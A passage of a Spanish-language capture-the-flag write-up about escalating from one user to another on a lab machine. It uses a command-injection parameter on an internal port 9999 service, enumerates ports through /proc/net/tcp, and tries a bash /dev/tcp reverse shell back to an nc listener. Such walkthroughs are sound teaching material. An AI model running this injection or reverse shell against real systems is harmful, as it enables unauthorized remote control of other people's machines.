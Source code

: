 Hemo migrado al usuario **mario** !

En su directorio **/home** encontramos una nota:

```shell
cat ServerDeS4vitar.txt 
------------------------------------------------------
Acordarme de usar la sintaxis index.php?cmds4vi=id para ejecutar comandos en el server de S4vitar
```

Es posible que haya un servicio internos que no hayamos podido identificar desde fuera con **nmap**.

Intentamos ver los servicios internos con **lsof**, **netstat**, **ss** pero ninguno está instalado, así que miramos el **/proc/net/tcp** y pasamos los puertos a decimal para ver cuales están abiertos:

```shell
for port in $(cat /proc/net/tcp | awk '{print $2}' | awk '{print $2}' FS=":" | sort -u); do echo "[+] PORT $port -> $((0x$port))"; done
----------------------------------------------------------
[+] PORT 0050 -> 80
[+] PORT 270F -> 9999
[+] PORT A36A -> 41834
```

Vemos un puerto 9999 y 41834. Si le hacemos un curl al **9999** vemos que nos contesta:

```shell
curl http://localhost:9999; echo
-------------------------------------------
No se ha pasado ningun comando.
```

Parece que le podemos pasar comandos, y si recordamos la nota, nos daba la pista de cual era el parámetro -> **cmds4vi**:

```shell
curl http://localhost:9999/index.php?cmds4vi=id; echo
-------------------------------------------------------
uid=1001(s4vitar) gid=1001(s4vitar) groups=1001(s4vitar),100(users)
```

Nos contesta correctamente y vemos que estamos ejecutando los comandos como el usuario **s4vitar**. Tratamos de enviarnos una **reverse shell**:

```shell
nc -nlvp 4433
```

```shell
curl http://localhost:9999/index.php?cmds4vi=bash -i >& /dev/tcp/172.17.0.1/4433 0>&1
```

![Pasted image 20240506204756](https://github.com/albertomarcostic/HackTheHeaven/assets/131155486/b9fe49ba-ad6c-4ebf-8886-d070f73854ca)

Vemos que nos llega la conexión pero inmediatamente se cierra y no nos podemos conectar correctamente. Descargamos **chisel** en la máquina atacante y en la máquina víctima, para crear un túnel, y poder acceder a la web del puerto **9999** de la máquina víctima en la máquina atacante.
